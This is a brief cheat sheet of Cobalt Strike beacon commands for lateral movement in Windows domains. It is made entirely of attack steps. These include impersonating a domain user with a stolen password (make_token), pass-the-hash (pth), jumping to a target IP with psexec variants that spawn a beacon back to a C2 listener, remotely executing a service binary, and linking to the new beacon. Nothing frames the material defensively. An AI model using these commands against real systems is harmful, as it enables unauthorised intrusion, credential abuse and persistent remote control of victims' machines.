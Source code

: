 # Cobalt Strike

Search Tag(s): #lateral-movement #cobalt-strike #psexec #windows

## 01 - Jump

```
beacon> make_token <domain_name>\<username> <password>

beacon> pth <domain_name>\<username> <password>

beacon> jump <psexec | psexec_psh | psexec64> <listener> <IP>
```

## 02 - Remote-Exec

```
beacon> make_token <domain_name>\<username> <password>

beacon> pth <domain_name>\<username> <password>

beacon> remote-exec psexec <IP> C:\path\to\shellsvc.exe

beacon> link \\<IP>
```